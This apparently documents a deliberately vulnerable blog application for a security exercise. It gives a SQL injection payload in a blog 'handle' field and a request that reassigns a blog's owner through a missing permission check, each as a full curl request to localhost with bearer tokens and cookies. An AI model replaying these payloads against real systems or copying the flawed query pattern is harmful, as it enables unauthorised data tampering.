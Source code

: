 # Overview

This code base demonstrates the following attacks: ....

# Vulnerability 1: SQL Injection Attack

The code includes an SQL injection attack that allows an attacker to inject arbitrary
commands into the Blog Database. The vulnerable codepath is as follows:

1. HTTP requests sent to the BlogResource's updateBlog() method accepts a "blog" parameter
   on lines 84-119
2. The elements of the Blog are concatenated to form SQL Queries
3. Creative setup of either the Handle string or the Name String can allow a hacker to set parameters they have no business changing, like the unique ID in the database

The vulnerability can be exploited by following the steps below:

1. Create a Blog entity (Curl setup as Admin)
2. Using curl, send the following request to the server:
   (The ID Value in the JSON will need to match the Blog you wish to change)

set handle to (I changed Three things!', id = 5853, name='hehehehehe)

curl 'http://localhost:8080/api/blogs' -X PUT -H 'Sec-Fetch-Mode: cors' -H 'Origin: http://localhost:8080' -H 'X-XSRF-TOKEN: 70785733-d570-48e0-8aaf-84def302ca70' -H 'Accept-Language: en-US,en;q=0.9' -H 'Authorization: Bearer eyJhbGciOiJIUzUxMiJ9.eyJzdWIiOiJhZG1pbiIsImF1dGgiOiJST0xFX0FETUlOLFJPTEVfVVNFUiIsImV4cCI6MTU3MTcyNjM2OX0.3ZVSufjAGZkIzhRwbF6je4Ol6LPOoTB40OIzkLdXWE5xvDme4FoxyYlgLy0nEr2ZcO8XG8sp1CTQf0X4rrDBhA' -H 'Accept-Encoding: gzip, deflate, br' -H 'Cookie: XSRF-TOKEN=70785733-d570-48e0-8aaf-84def302ca70; JSESSIONID=sbJFD3rLekadRFxvmreQXAF2zplu9e8BGBNEGVJU; io=COdBC5irez3F1xjVAAAG' -H 'Connection: keep-alive' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.132 Safari/537.36' -H 'Content-Type: application/json' -H 'Accept: application/json, text/plain, _/_' -H 'Referer: http://localhost:8080/blog/5851/edit' -H 'Sec-Fetch-Site: same-origin' -H 'DNT: 1' --data-binary \$'{"id":5851,"name":"aaaaaaaaaaaaaaaaaaa","handle":"I changed Three things\u0021\', id = 5853, name=\'hehehehehe","user":{"id":3,"login":"admin","firstName":"Administrator","lastName":"Administrator","email":"admin@localhost","activated":true,"langKey":"en","imageUrl":"","resetDate":null}}' --compressed

3. The Server will send back the JSON of the updated blog

# Vulnerability 2: Injection Attack

The code includes an injection attack that allows an attacker to inject arbitrary
commands into the Blog Database. The vulnerable codepath is as follows:

1. HTTP requests sent to the BlogResource's updateBlog() method accepts a "blog" parameter
   on lines 84-119
2. The user data to be set is not checked for permissions
3. This allows for any user to reassign the the owner of a blog to another user
4. This can not be done through the web page itself as it does not allow you to assign things to other users, therefore this is an easily misable mistake if you don't test around the UI

The vulnerability can be exploited by following the steps below:

1. Create a Blog entity as User
2. Using curl, send the following request to the server:
   (The ID Value in the JSON will need to match the Blog you wish to change to be owned by the admin)

curl 'http://localhost:8080/api/blogs' -X PUT -H 'Sec-Fetch-Mode: cors' -H 'Origin: http://localhost:8080' -H 'X-XSRF-TOKEN: 70785733-d570-48e0-8aaf-84def302ca70' -H 'Accept-Language: en-US,en;q=0.9' -H 'Authorization: Bearer eyJhbGciOiJIUzUxMiJ9.eyJzdWIiOiJ1c2VyIiwiYXV0aCI6IlJPTEVfVVNFUiIsImV4cCI6MTU3MTc3OTc1OX0.qlCXpXGVLyGZpEN7PGSpo2FdbuRDqMcWhYc796YoUOi*l2cmauo77xoa56fQA2GYVGMq-v-Cjqps4FUbxGGpYw' -H 'Accept-Encoding: gzip, deflate, br' -H 'Cookie: XSRF-TOKEN=70785733-d570-48e0-8aaf-84def302ca70; JSESSIONID=sbJFD3rLekadRFxvmreQXAF2zplu9e8BGBNEGVJU; io=COdBC5irez3F1xjVAAAG' -H 'Connection: keep-alive' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.132 Safari/537.36' -H 'Content-Type: application/json' -H 'Accept: application/json, text/plain, */\_' -H 'Referer: http://localhost:8080/blog/5852/edit' -H 'Sec-Fetch-Site: same-origin' -H 'DNT: 1' --data-binary '{"id":5852,"name":"TESTed","handle":"TESTed","user":{"id":3,"login":"admin","firstName":"Administrator","lastName":"Administrator","email":"admin@localhost","activated":true,"langKey":"en","imageUrl":"","resetDate":null}}' --compressed

3. The Server will send back the JSON of the updated blog

